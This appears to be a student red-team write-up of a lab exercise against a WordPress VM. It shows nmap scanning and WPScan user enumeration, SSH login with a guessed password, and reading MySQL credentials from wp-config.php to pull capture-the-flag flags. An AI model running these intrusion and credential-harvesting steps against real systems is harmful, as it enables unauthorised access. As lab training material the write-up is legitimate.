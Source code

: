 # Read Team: Summary of Operations

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

Output Screenshot:

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Nmap-Scan.png)

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**

1. Weak Password Requirements (CWE-521) 
2. User Enumeration
3. Unsalted User Password Hash (WordPress database)

### Explotation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Commands: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

**WPScan Results:**

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/WPscan.png)

- Targeting user Michael
    - Simply guessed Michael’s password, as it was very obvious
    - Password: michael (lulz)
- Capturing Flag 1: SSH'd into Michael's account and traversed through directories and folders
    - Flag 1 found in var/www/html folder in service.html 

        - Commands:
    
        - `$ ssh michael@192.168.1.110`
        - `$ password: michael`
        - `$ cd /var/www/html`
        - `$ cat service.html`
        
![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.

        - Commands:
        
        - `ssh michael@192.168.1.110` 
        - `pw: michael`
        - `cd ../` 
        - `cd ../`
        - `cd var/www`
        - `ls`
        - `cat flag2.txt`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag2.png) 

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Obtained mysql login credentials from the wp-config.php file found in the var/www/html/wordpress directory
        - I was able to find Flags 3 and 4 using the steps below
        - Commands:

         - `mysql -u -p`
         - `password: R@v3nSecurity`
         - `show databases;`
         - `use wordpress;` 
         - `show tables;`
         - `select * from wp_posts;`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag3.png)

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag4.png)

